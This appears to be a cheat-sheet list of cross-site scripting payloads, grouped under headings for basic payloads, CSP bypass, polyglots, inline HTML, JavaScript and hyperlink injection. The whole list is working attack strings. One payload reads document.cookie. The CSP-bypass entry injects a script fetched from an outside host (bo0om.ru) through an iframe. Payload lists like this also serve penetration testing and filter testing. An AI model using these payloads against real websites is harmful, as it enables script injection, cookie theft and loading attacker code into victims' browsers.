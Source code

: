 # Unique XSS Payloads and Techniques

## XSS Payloads
- `<img src="/" onerror='prompt(1)'>`
- `<svg/onload=eval(location.hash.substr(1))>#alert(1)`
- `<details/open/ontoggle=confirm('XSS')>`

## CSP Bypass
- `<script>f=document.createElement("iframe");f.id="pwn";f.src="/robots.txt";f.onload=()=>{x=document.createElement('script');x.src='//bo0om.ru/csp.js';pwn.contentWindow.document.body.appendChild(x)};document.body.appendChild(f);</script>`

## Polyglot Payloads
- `javascript:"/*'/*\`/*--></noscript></title></textarea></style></template></noembed></script><html " onmouseover=/*<svg*/onload=alert()//`

## Inline HTML Injection
- `" onclick=alert(1)//">click`
- `" autofocus onfocus=alert(1) "`

## JavaScript Injection
- `'?prompt\`1\`?'`
- `"})},alert(1));(function xss() {//`
- `"-alert(1)-"`

## Hyperlink Tag Injection
- `javascript://%250Aalert(document.location="https://google.com",document.location="https://www.facebook.com")`
- `/x:1/:///%01javascript:alert(document.cookie)/`
